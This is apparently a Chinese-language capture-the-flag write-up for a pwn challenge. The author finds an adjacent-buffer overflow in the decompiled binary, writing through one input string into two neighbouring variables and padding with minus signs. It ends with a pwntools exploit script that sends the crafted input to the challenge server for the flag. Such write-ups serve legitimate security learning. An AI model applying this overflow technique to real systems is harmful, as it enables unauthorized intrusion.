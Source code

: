 先丢进IDA，F5，分析运行过程。
程序先生成了3个随机数并输出，然后需要输入一个字符串s：
[img](https://qqadapt.qpic.cn/txdocpic/0/290c61463224077f5064b2eb6502952b/0)
之后验证s中是否只包含数字字符和负号：
[img](https://qqadapt.qpic.cn/txdocpic/0/4de09b6f6c6c0701fe28259b0ffe8b0f/0)
然后把s,nptr,v15中的字符串使用atoi()转换成整数v9,v10,v11，并满足3个if中的条件即可得到flag：
[img](https://qqadapt.qpic.cn/txdocpic/0/c1370db5b51b9ba16b871e3443fe3408/0)
虽然我们只输入了字符串s，但观察发现s,nptr,v15是相连的，可以通过写s写穿到其他两个变量中，3个变量大小都为10字节：
[img](https://qqadapt.qpic.cn/txdocpic/0/f251a9493d3a53d1bd7ecdd7e6311c70/0)
接下来就是解方程，求出v9,v10,v11，然后填到s中并传输。
这里有个坑，由于需要通过s直接写到nptr,v15，这说明3个变量实际上是没有‘\0’这种分隔符的，一旦调用atoi(s)，就会把后面的数据也读取到s中。因此要考虑怎么分隔3个变量。既然它限制了输入只能是数字字符和负号，数字显然不能分隔，这样只能是用负号把剩下的空间填充。
exp:
```python
from pwn import *

def change(num):
	num=str(num)
	return num+(10-len(num))*'-'

#io=process("./challenge1")
io=remote("159.89.166.12",9800)

io.recvuntil(":)\n")
x=io.recvuntil(";")
x=x[0:len(x)-1]
y=io.recvuntil(";")
y=y[0:len(y)-1]
z=io.recvuntil(";")
z=z[0:len(z)-1]

x=int(x)
y=int(y)
z=int(z)

a=(z-y+x)/2
b=(x+y-z)/2
c=(y-x+z)/2

a=change(a)
b=change(b)
c=change(c)

io.sendline(a+b+c)
io.interactive()
```
得到flag：
[img](https://qqadapt.qpic.cn/txdocpic/0/4c53f160dc7ebc9bbe85104435ab05d9/0)